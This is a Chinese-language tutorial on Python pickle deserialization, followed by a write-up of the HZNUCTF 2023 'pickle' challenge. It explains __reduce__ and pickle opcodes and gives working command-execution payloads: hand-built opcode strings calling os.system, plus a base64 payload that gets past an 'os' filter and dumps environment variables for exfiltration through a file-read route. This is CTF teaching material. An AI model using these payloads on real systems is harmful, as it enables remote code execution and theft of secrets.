




# pickle模块简介

pickle模块是Python的标准库之一，是Python专用的持久化模块。（那什么是持久化模块呢？所谓持久化模块也就是让数据持久化保存）pickle提供了一个简单的持久化功能，可以持久化包括自定义类在内的各种数据。

pickle模块可以通过序列化来将Python对象转换成字节流存储到磁盘中或通过网络传输，并在需要时通过反序列化重新加载，以方便数据的保存和传递。

## 为什么要有序列化和反序列化

无论是何种类型的数据，都会以二进制序列的形式在网络上传送。发送方需要把这个对象转换为字节序列，才能在网络上传送;接收方则需要把字节序列再恢复为对象。

## pickle序列化对象常用函数

```python
pickle.dump(obj, file, [,protocol])
#序列化对象，将结果数据流写入到文件对象中。
#参数: 	obj:想要序列化的对象  file:文件名称	
#protocol:序列化模式，默认值为0，表示以文本的形式序列化。protocol的值还可以是1或2，表示以二进制的形式序列化。
pickle.load(file)
#反序列化对象。将文件中的数据解析为一个Python对象
#参数:	file:文件名称
```

而在CTF中的常见的则是下面两个函数

```python
pickle.dumps(obj, [,protocol])
#将obj对象序列化为string，不存入文件中。
#参数: 	obj:想要序列化的对象
#protocol:序列化模式，默认值为0，表示以文本的形式序列化。protocol的值还可以是1或2，表示以二进制的形式序列化。
pickle.loads(string)
#反序列化对象。将文件中的数据解析为一个Python对象
#参数:	string:文件名称
```

# __reduce__魔术方法

[pickle --- Python 对象序列化 — Python 3.13.0 文档](https://docs.python.org/zh-cn/3/library/pickle.html#object.__reduce__)

__reduce__()函数有两种返回值：1、字符串	2、元组

如果返回的是元组，则应当包含 2 到 6 个元素，可选元素可以省略或设置为 `None`。每个元素代表的意义如下：

- 一个可调用对象，该对象会在创建对象的最初版本时调用。
- 可调用对象的参数，是一个元组。如果可调用对象不接受参数，必须提供一个空元组。

那么如果__reduce__返回值类型是tuple，便可以实现代码执行。

tips： __reduce__和php中的__wake__类似，在反序列化的时候会自动执行。

```python
import pickle
import os
class A(object):
    def __reduce__(self):
        cmd="whoami"
        return (os.system,(cmd,))
a=A()
pickle_a=pickle.dumps(a)
print(pickle_a)
pickle_b=pickle.loads(pickle_a)#反序列化时触发了代码执行
```

执行效果如下



# opcode

## 什么是opcode

 Python 中的 **opcode**（操作码）是 Python 虚拟机（PVM）执行的字节码指令。Python 程序在执行时，源代码首先会被编译成字节码，然后由 Python 虚拟机解释执行。每个字节码指令都有对应的操作码（opcode），操作码是 Python 字节码中的基本指令单位，表示要对数据或内存进行的操作。  

## 常用opcode

| **指令** | **描述**                                                     | **具体写法**                                       | **栈上的变化**                                               |
| -------- | ------------------------------------------------------------ | -------------------------------------------------- | ------------------------------------------------------------ |
| c        | 获取一个全局对象或import一个模块                             | c[module]\n[instance]\n                            | 获得的对象入栈                                               |
| o        | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o                                                  | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 |
| i        | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n                            | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 |
| N        | 实例化一个None                                               | N                                                  | 获得的对象入栈                                               |
| S        | 实例化一个字符串对象                                         | S'xxx'\n（也可以使用双引号、\'等python字符串形式） | 获得的对象入栈                                               |
| V        | 实例化一个UNICODE字符串对象                                  | Vxxx\n                                             | 获得的对象入栈                                               |
| I        | 实例化一个int对象                                            | Ixxx\n                                             | 获得的对象入栈                                               |
| F        | 实例化一个float对象                                          | Fx.x\n                                             | 获得的对象入栈                                               |
| R        | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R                                                  | 函数和参数出栈，函数的返回值入栈                             |
| .        | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | .                                                  | 无                                                           |
| (        | 向栈中压入一个MARK标记                                       | (                                                  | MARK标记入栈                                                 |
| t        | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | t                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| )        | 向栈中直接压入一个空元组                                     | )                                                  | 空元组入栈                                                   |
| l        | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | l                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| ]        | 向栈中直接压入一个空列表                                     | ]                                                  | 空列表入栈                                                   |
| d        | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 |
| }        | 向栈中直接压入一个空字典                                     | }                                                  | 空字典入栈                                                   |
| p        | 将栈顶对象储存至memo_n                                       | pn\n                                               | 无                                                           |
| g        | 将memo_n的对象压栈                                           | gn\n                                               | 对象被压栈                                                   |
| 0        | 丢弃栈顶对象                                                 | 0                                                  | 栈顶对象被丢弃                                               |
| b        | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b                                                  | 栈上第一个元素出栈                                           |
| s        | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s                                                  | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 |
| u        | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u                                                  | MARK标记以及被组合的数据出栈，字典被更新                     |
| a        | 将栈的第一个元素append到第二个元素(列表)中                   | a                                                  | 栈顶元素出栈，第二个元素（列表）被更新                       |
| e        | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e                                                  | MARK标记以及被组合的数据出栈，列表被更新                     |

## 构造示例（从R,i,o 三个方向构造编写的命令执行的opcode）

```python
b'''cos
system
(S'whoami'
tR.'''
```

R opcode执行原理解析：



i和o跟着上面的指令一步步来也是一样的道理

```python
b'''(S'whoami'
ios
system
.'''
b'''(cos
system
S'whoami'
o.'''
```

# 相关题目

## [HZNUCTF 2023 preliminary]pickle

访问页面直接给了源码，拿到去让ai去整理一下

```python
import base64  
import pickle  
from flask import Flask, request  
  
app = Flask(__name__)  
  
# 首页路由，返回当前 app.py 文件的内容  
@app.route('/')  
def index():  
    with open('app.py', 'r') as f:  
        return f.read()  
  
# 计算路由，尝试反序列化并修改 payload，但存在严重的安全风险  
@app.route('/calc', methods=['GET'])  
def getFlag():  
    payload = request.args.get("payload")  
    # 尝试解码 base64 并替换 'os' 模块为 ''，然后反序列化  
    # 这段代码非常危险，因为它允许远程代码执行（RCE）  
    pickle.loads(base64.b64decode(payload).replace(b'os', b''))  
    return "ganbadie!"  
  
# 读取文件路由，允许通过 GET 参数指定文件名，但会替换 'flag' 为 '????'  
@app.route('/readFile', methods=['GET'])  
def readFile():  
    filename = request.args.get('filename').replace("flag", "????")  
    # 打开并返回文件内容，这里存在目录遍历等安全风险  
    with open(filename, 'r') as f:  
        return f.read()  
  
if __name__ == '__main__':  
    # 运行 Flask 应用，监听所有网络接口  
    app.run(host='0.0.0.0')
```

分析可得访问/calc路由传递payload参数，可以进行pickle反序列化，进而达到命令执行的目的，而可以看到在成功反序列化后，页面不会回显而是返回"ganbadie"。

所以我们就要用到/readFile路由了，访问/readFile传递filename参数，可以读取文件内容。

于是我们便可以利用/calc进行pickle反序列化进行命令执行，将得到的结果写入一个文件中，再通过/readFile来进行回显。

由于在getFlag这个函数中会将os给替换掉，所以我们这里可以利用字符拼接来绕过，payload如下：

```python
import pickle
import os
import base64
class A:
    def __reduce__(self):
        return (eval,("__import__('o'+'s').system('env|tee a')",))
a=A()
pickle_a=pickle.dumps(a)
print( base64.b64encode(pickle_a))
#b'gASVQwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwnX19pbXBvcnRfXygnbycrJ3MnKS5zeXN0ZW0oJ2Vudnx0ZWUgYScplIWUUpQu'
```

我们先进行访问/calc路由将上面运行的payload传递进去，返回"ganbadie"



然后我们在去访问/readFile路由，filename=a，就能从环境变量中获取到flag


